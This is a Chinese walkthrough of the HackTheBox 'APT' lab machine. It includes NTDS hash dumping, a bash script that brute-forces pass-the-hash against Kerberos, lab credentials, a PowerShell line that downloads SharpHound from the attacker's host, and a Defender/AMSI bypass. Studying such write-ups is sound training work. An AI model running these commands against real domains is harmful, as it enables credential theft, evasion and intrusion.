# HackTheBox·APT-先知社区

> **来源**: https://xz.aliyun.com/news/17395  
> **文章ID**: 17395

---

# 信息搜集

## IPv4端口扫描

一共就开放了两个端口：Web和RPC服务。

```
nmap -sC -sV --min-rate=10000 --max-retries=0 -p- -oN apt-tcp.nmap -v 10.10.10.213
```



## RPC端点枚举

尝试使用`rpcclient`进行匿名连接，发现连接失败。

```
rpcclient -U "" -N 10.10.10.213
```



接着我们继续用`rpcmap.py`枚举：一共发现了4个DCOM对象。

```
python /tools/impacket/examples/rpcmap.py ncacn_ip_tcp:10.10.10.213[135]
```

此扫描提供了一组RPC端点及其UUID。



我们可以利用下面的项目来枚举地址IPv6地址。

<https://github.com/mubix/IOXIDResolver>

```
python IOXIDResolver.py -t 10.10.10.213
```



这个脚本的代码逻辑很简单，即通过DCOM的的IObjectExporter接口获取目标机器的网络信息。

并且使用的是无认证的RPC连接方式。

核心代码如下：核心在于`IObjectExporter.ServerAlive2()`方法来获取网络接口信息。



更加详细的解释就是调用的是`DCOM(Distributed Component Object Model)`的`IObjectExporter`接口。

## IPv6端口扫描

我们现在获取了IPv6地址，对目标机器进行重新扫描。

```
nmap -sC -sV --min-rate=10000 --max-retries=0 -p- -oN apt.nmap -v -6 dead:beef::3db4:c917:8be7:8ee8
```

```
# Nmap 7.94SVN scan initiated Sat Mar 22 15:52:04 2025 as: nmap -sC -sV --min-rate=10000 --max-retries=0 -p- -oN apt.nmap -v -6 dead:beef::3db4:c917:8be7:8ee8
Warning: dead:beef::3db4:c917:8be7:8ee8 giving up on port because retransmission cap hit (0).
Nmap scan report for dead:beef::3db4:c917:8be7:8ee8
Host is up (0.43s latency).
Not shown: 65512 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Bad Request
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-03-22 07:33:55Z)
135/tcp   open  msrpc        Microsoft Windows RPC
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
|_ssl-date: 2025-03-22T07:35:32+00:00; -18m30s from scanner time.
| ssl-cert: Subject: commonName=apt.htb.local
| Subject Alternative Name: DNS:apt.htb.local
| Issuer: commonName=apt.htb.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-24T07:07:18
| Not valid after:  2050-09-24T07:17:18
| MD5:   c743:dd92:e928:50b0:aa86:6f80:1b04:4d22
|_SHA-1: f677:c290:98c0:2ac5:8575:7060:683d:cdbc:5f86:5d45
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap     Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=apt.htb.local
| Subject Alternative Name: DNS:apt.htb.local
| Issuer: commonName=apt.htb.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-24T07:07:18
| Not valid after:  2050-09-24T07:17:18
| MD5:   c743:dd92:e928:50b0:aa86:6f80:1b04:4d22
|_SHA-1: f677:c290:98c0:2ac5:8575:7060:683d:cdbc:5f86:5d45
|_ssl-date: 2025-03-22T07:35:30+00:00; -18m29s from scanner time.
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
|_ssl-date: 2025-03-22T07:35:32+00:00; -18m29s from scanner time.
| ssl-cert: Subject: commonName=apt.htb.local
| Subject Alternative Name: DNS:apt.htb.local
| Issuer: commonName=apt.htb.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-24T07:07:18
| Not valid after:  2050-09-24T07:17:18
| MD5:   c743:dd92:e928:50b0:aa86:6f80:1b04:4d22
|_SHA-1: f677:c290:98c0:2ac5:8575:7060:683d:cdbc:5f86:5d45
3269/tcp  open  ssl/ldap     Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
|_ssl-date: 2025-03-22T07:35:29+00:00; -18m29s from scanner time.
| ssl-cert: Subject: commonName=apt.htb.local
| Subject Alternative Name: DNS:apt.htb.local
| Issuer: commonName=apt.htb.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-24T07:07:18
| Not valid after:  2050-09-24T07:17:18
| MD5:   c743:dd92:e928:50b0:aa86:6f80:1b04:4d22
|_SHA-1: f677:c290:98c0:2ac5:8575:7060:683d:cdbc:5f86:5d45
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Bad Request
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Bad Request
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc        Microsoft Windows RPC
49673/tcp open  msrpc        Microsoft Windows RPC
49680/tcp open  msrpc        Microsoft Windows RPC
49687/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: APT; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
|_clock-skew: mean: -18m27s, deviation: 3s, median: -18m29s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: apt
|   NetBIOS computer name: APT\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: apt.htb.local
|_  System time: 2025-03-22T07:35:13+00:00
| smb2-time: 
|   date: 2025-03-22T07:35:08
|_  start_date: 2025-03-22T07:05:34

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar 22 15:54:06 2025 -- 1 IP address (1 host up) scanned in 121.99 seconds
```

这儿截一张之后打完这台机器查看网络情况的图。

明明IPv4和IPv6地址都设置了监听，为什么通过IPv4地址扫描不到呢？



## SMB匿名枚举

这儿通过`crackmapexec`和`smbmap`枚举IPv6都会报错。

```
smbclient -L dead:beef::3db4:c917:8be7:8ee8 -N
```



我们尝试连接`backup`并下载文件。

```
smbclient //dead:beef::3db4:c917:8be7:8ee8/backup -N
```



之后发现`-u '' -p ''`可以枚举成功，而常用的`-u 'null' -p ''`则会报错。



## ZIP压缩包爆破

用john爆破得到压缩包密码。

```
zip2john backup.zip > ziphash
john -w=/usr/share/wordlists/rockyou.txt ziphash
```



解压，发现得到两个关键文件。



# 立足点获取

## NTDS哈希提取

用上面的两个文件中提取出来一堆哈希。

```
impacket-secretsdump -system /htb/apt/registry/SYSTEM -ntds /htb/apt/Active\ Directory/ntds.dit LOCAL
```



接着我们制作两份字典。

```
awk -F ':' '{print $1}' data.txt > username.txt
awk -F ':' '{print $4}' data.txt > password.txt
```

## 字典凭证爆破

利用上面的两份字典进行爆破，但是这样报错，没有枚举几次就报`NETBIOS`连接错误了。

这儿需要重置机器，否则无法访问IPv6地址。



我们只好先爆破用户名，再测试密码：一共就爆破出来三个用户。

```
./kerbrute userenum --domain htb.local --dc htb.local /htb/apt/username.txt 
```



接着我们继续尝试哈希传递，测试这几个用户。

由于目标有WAF会Ban IP，我们可以尝试用`GetTGT.py`脚本进行爆破，但是此脚本不支持哈希批量爆破。

我们可以写一个shell脚本来爆破。

```
#!/bin/bash

# 逐行读取哈希值并执行命令
while IFS= read -r hash; do
    # 跳过空行
    if [ -z "$hash" ]; then
        continue
    fi
    
    # 执行命令并捕获输出
    output=$(python /tools/impacket/examples/getTGT.py htb.local/henry.vinson -dc-ip htb.local -hashes ":$hash" 2>&1)
    exit_code=$?
    
    # 检查输出中是否包含特定错误信息
    if echo "$output" | grep -q "KDC_ERR_PREAUTH_FAILED"; then
        echo "[-] 哈希错误: $hash"
    elif echo "$output" | grep -q "KRB_AP_ERR_SKEW" || echo "$output" | grep -q "Saving ticket in"; then
        echo "[+] 发现正确的哈希值: $hash"
        echo "完整输出:"
        echo "$output"
        # 可以选择在这里退出脚本
        exit 0
    else
        echo "未知错误或成功: $hash"
        echo "完整输出:"
        echo "$output"
    fi
    
done < "password.txt"
```



但是值得注意的是，这儿需要做时间同步，但是用IPv6地址，通过`ntpdate`似乎无法进行时间同步。

因为Kerberos认证是基于时间的，无法进行时间同步就无法申请票据。



尽管无法进行时间同步，但是进行身份验证成功，`crackmapexec`默认的应该是NTLM认证。



我们从数据包也能看出来，这是NTLM认证的 协商/质询/响应 流程。



```
henry.vinson:e53d87d42adaa3ca32bdb34a876cbffb
```

## 注册表查询

接着我们进行注册表查询。

```
python /tools/impacket/examples/reg.py -hashes :e53d87d42adaa3ca32bdb34a876cbffb -dc-ip htb.local htb.local/henry.vinson@htb.local query -keyName HKU -s > reg.txt
```

注：这儿的`HKU`即指的是`HKEY_USERS`，涉及该用户相关的注册表项。



这儿得到一组凭据，成功通过`WinRM`连接`henry.vinson_adm:G1#Ny5@2dvht`。



至于为什么这个路径存在明文密码，无非就是应用的不安全存储导致的。

# 权限提升

## Bloodhound

因为我在教室，网络非常不好，利用`evil-winrm`内置的上传模块太慢了。

我们直接利用powershell内置的网络类命令上传：没看到什么有效的组策略和权限。

```
powershell -c (New-Object Net.WebClient).downloadfile('http://10.10.16.15/SharpHound.exe', 'C:/programdata/SharpHound.exe')
```



## 机器信息枚举

我们可以利用`winPEAS`和`Seatbelt`对服务器进行枚举。

但是这儿有个问题，我们上传运行会被`Windows Defender`检测到并阻止。



我们可以利用`evil-winrm`内置的`Bypass-4MSI`模块来绕过。



然后用`Invoke-Binary`模块将可执行程序加载到内存中：等待的时间比较长。



我们查看Powershell历史命令文件。

```
$Cred = get-credential administrator
invoke-command -credential $Cred -computername localhost -scriptblock {Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" lmcompatibilitylevel -Type DWORD -Value 2 -Force}
```

上面这两行用于通过注册表来修改`LAN Manager`认证级别。

从官方文档可知Level 2代表的是支持NTLM v1认证。

<https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level>



同时我们从上的扫描结果中，也可以发现是支持NTLM v1认证的。



## NTLM v1捕获

上述我们知道目标机器是支持NTLM v1认证，而NTLM v1是基于DES加密的，并且其认证过程存在漏洞，可以将NTLM v1哈希转换为可利用的NTLM哈希。

现在需要一种方法让`SYSTEM`账户访问我的机器：直接用`Defender`扫描即可。

